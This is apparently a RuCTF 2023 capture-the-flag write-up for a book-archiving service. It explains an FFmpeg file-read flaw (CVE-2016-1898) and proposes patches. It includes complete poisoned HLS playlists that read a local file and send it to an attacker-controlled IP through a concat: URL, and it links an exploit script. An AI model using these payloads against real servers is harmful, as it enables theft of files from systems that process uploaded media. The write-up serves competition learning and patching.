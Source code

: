# RuCTF Finals 2023 | bookster

## Description

This is a service for preserving books in arctic ice for future generations. 
Program like Github Arctic Code Vault.
Because in the future everyone likes to watch short videos, you need to attach a video to the book. 
A preview image will generated from the video using FFmpeg.

The flag is text in book files.

## Original vuln - SSRF


In the source used some custom build of ffmpeg `ffpegctf218.tar.gz` based on old version FFmpeg 2.1.8.

That is confirmed to be vulnerable to reading any files by sending that poisoned playlist instead of a video.

CVE-2016-1898. [Habr post from VK ](https://habr.com/ru/companies/vk/articles/274855/)



## Execution flow

- Run some simple `server.py` on your machine with external ip
- Put this external ip into some file. e.g. `static\header.m3u8` (NOTE: file must end with '?' not '\n')
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://10.10.10.5:12345?
```
- Put this file to some public static files server. e.g run `python3 -m http.server 12322 --bind 0.0.0.0`
- Set link to this file and flag id in our bad video file e.g.`test.avi`
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.10.5:12322/header.m3u8|file:///vault/books/{flag_id}.txt
#EXT-X-ENDLIST
```
- Now you must send POST request  `api/books`  for save new book from some account with our bad video file e.g. run `python send_payload.py`
- Now you have request with flag on your machine from step one

All steps in one [sploit](/sploits/bookster/bookster.1.sploit.py)

### Patch original

- Need to reverse our binary build
- use bindiff with original ffmpeg 2.1.8
- Understand how ffmpeg options was renamed 
- Find what hidden filter param apply to image. [This files was changed in source](/writeups/bookster/ffmpegchanges/cmd_utils.c) 
- Update to newer version of ffmpeg with original option names and filter param

### Patch alternative 

- Not save flags in file. Save it to database.
- Not use sqlite, rewrite service to postgres use.



